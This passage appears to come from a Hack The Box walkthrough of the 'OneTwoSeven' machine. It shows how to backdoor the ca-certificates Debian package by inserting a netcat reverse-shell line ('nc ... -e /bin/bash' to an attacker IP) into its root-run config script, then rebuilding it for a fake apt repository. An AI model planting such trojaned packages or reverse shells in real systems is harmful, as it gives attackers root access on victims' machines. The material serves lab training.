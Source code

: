 I guess the question is how do you go about doing Step 3. How's how.

...

First of all, select a package that you want to backdoor. I've selected `ca-certificates`. It's relatively small in size and there's a `config` script executed as `root`.

Next, set up the directory structure on my attacking machine.

```
# mkdir -p devuan/dists/ascii/main/binary-amd64
# mkdir -p devuan/pool/main/c/ca-certificates
```

And since I'm using Kali Linux, I'll download the latest `ca-certificates` from the Kali Linux repository.

<a class="image-popup">
![f2478a05.png](/assets/images/posts/onetwoseven-htb-walkthrough/f2478a05.png)
</a>

Run the following commands in the same directory:

```
# wget http://kali.download/kali/pool/main/c/ca-certificates/ca-certificates_20190110_all.deb
# dpkg-deb -R ca-certificates_20190110_all.deb evil
# rm ca-certificates_20190110_all.deb
# sed -i '2i \/bin/nc 10.10.12.49 4321 -e /bin/bash' evil/DEBIAN/config
# dpkg-deb -b evil ca-certificates_20190110_all.deb
# cp ca-certificates_20190110_all.deb /root/Downloads/onetwoseven/backdoor/devuan/pool/main/c/ca-certificates
```
